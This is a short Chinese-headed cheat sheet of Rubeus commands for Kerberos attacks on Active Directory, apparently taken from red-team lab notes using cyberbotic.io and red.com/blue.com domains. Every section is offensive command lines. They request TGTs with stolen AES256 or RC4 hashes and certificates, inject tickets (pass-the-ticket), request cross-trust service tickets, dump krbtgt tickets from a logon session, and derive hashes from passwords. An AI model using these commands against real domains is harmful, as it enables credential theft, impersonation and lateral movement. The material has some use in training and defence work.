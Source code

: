 # 请求tgt
```
Rubeus.exe asktgt /user:jadams /domain:dev.cyberbotic.io /aes256:178aaea34e7c37d77fde27e2da34e6311bd0ac609c871b925a53bdc69e832a52 /opsec /nowrap

Rubeus.exe asktgt /user:jking /domain:dev.cyberbotic.io /rc4:4ffd3eabdce2e158d923ddec72de979e /nowrap

Rubeus.exe asktgt /user:srv-2$ /aes256:6e2aa9430552f43c26e3d534d49776f7a53ca938dff193b877ba7502bdaf1750 /opsec /nowrap

Rubeus.exe asktgt /user:nglover /certificate:MIIMtwIBAzCC......AgIIAA== /password:123 /aes256 /nowrap
Rubeus.exe asktgt /user:pawadmin /certificate:C:\AD\Tools\pawadmin.pfx /password:SecretPass@123 /nowrap /ptt

Rubeus.exe asktgt /outfile:kirbi /user:WKSTN-3$ /ptt /certificate:MIIQ3QIBAzC...vY+DMdA== /nowrap

Rubeus.exe asktgt /user:Administrator /domain:cyberbotic.io /certificate:MIA...AAA /password:password /nowrap

Rubeus.exe asktgt /user:jking /domain:dev.cyberbotic.io /aes256:a561a175e395758550c9123c748a512b4b5eb1a211cbd12a1b139869f0c94ec1 /nowrap /opsec /createnetonly:C:\Windows\System32\cmd.exe
```

# 请求tgs
```
rubeus.exe asktgs /ticket:trust.kirbi /service:cifs/reddc.red.com /dc:reddc.red.com /ptt

rubeus.exe asktgs /service:krbtgt/blue.com /domain:red.com /dc:reddc.red/com /ticket:[ticket] /nowrap

rubeus.exe asktgs /service:cifs/bluedc.blue.com /domain:bluedc.blue.com /dc:bluedc.blue.com /ticket:[ticket]  /nowrap
```

# 列举票据
```
rubeus.exe triage
```

# dump出票据
```
rubeus.exe dump /luid:0x3e4 /service:krbtgt /nowrap
```

# 明文密码转哈希
```
rubeus.exe hash /domain:red.com /user:rbcd$ /password:123
```
